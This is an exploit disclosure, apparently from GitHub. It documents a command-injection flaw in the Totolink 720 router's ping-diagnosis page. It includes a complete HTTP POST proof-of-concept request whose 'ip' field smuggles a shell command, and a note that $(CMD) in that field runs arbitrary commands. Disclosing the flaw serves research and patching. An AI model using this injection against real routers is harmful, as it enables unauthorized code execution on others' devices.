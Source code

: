 <b>Exploit Title:</b>Totolink 720 has a code execution vulnerability   
<b>Version:</b>V4.1.5cu.374  
<b>Date:</b>2022/08/16  
<b>Exploit Author:</b>xiaohu816  
<b>Vendor Homepage:</b>https://www.totolink.net/  

<b>POC:</b>  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
Execute the TLS > / TMP / 1.txt command  
```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1  
Content-Length: 52  
Accept: application/json, text/javascript, */*; q=0.01  
X-Requested-With: XMLHttpRequest  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Origin: http://192.168.0.1  
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Cookie: SESSION_ID=2:1591951611:2  
Connection: close  

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}   
```

<b>Analysis Report:</b>   
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  



